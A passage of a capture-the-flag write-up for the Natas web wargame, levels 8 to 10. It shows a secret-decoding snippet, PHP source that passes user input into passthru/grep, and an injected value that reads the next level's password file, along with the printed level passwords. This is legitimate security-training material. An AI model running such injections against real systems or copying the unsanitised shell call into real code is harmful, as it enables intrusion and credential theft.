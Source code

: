 hex2bin  
[https://www.php.net/manual/en/function.hex2bin.php](https://www.php.net/manual/en/function.hex2bin.php)

```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function dencodeSecret($secret) {
    return base64_decode(strrev(hex2bin($secret)));
}

echo dencodeSecret($encodedSecret);

[Running] php "c:\_git\github\tempCodeRunnerFile.php"
oubWYf2kBq
[Done] exited with code=0 in 0.154 seconds
```

```text
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## natas 9

view source

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```

No input validation. We can do command injection. lets just add a additional file to grep and search for something that is likely to be in the password.

```text
1 /etc/natas_webpass/natas10
```

```text
Output:

/etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## natas10

view source

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
```